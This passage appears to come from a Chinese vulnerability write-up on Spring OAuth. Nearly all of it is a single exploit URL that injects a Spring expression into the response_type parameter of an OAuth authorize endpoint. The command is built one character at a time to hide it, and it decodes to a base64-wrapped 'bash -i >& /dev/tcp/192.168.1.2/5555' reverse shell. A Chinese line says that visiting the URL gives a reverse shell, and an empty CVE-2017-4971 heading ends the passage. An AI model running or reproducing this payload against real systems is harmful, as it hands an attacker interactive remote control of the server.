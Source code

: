     
    
    http://127.0.0.1:8080/oauth/authorize?response_type=${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(70)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(83)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(82)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(77)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(56)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(85)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(73)).concat(T(java.lang.Character).toString(68)).concat(T(java.lang.Character).toString(65)).concat(T(java.lang.Character).toString(43)).concat(T(java.lang.Character).toString(74)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(69)).concat(T(java.lang.Character).toString(61)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}&client_id=acme&scope=openid&redirect_uri=http://test

然后再访问这个网站即可得到反弹shell

![](https://gitee.com/fuli009/images/raw/master/public/20210817101939.png)

# CVE-2017-4971

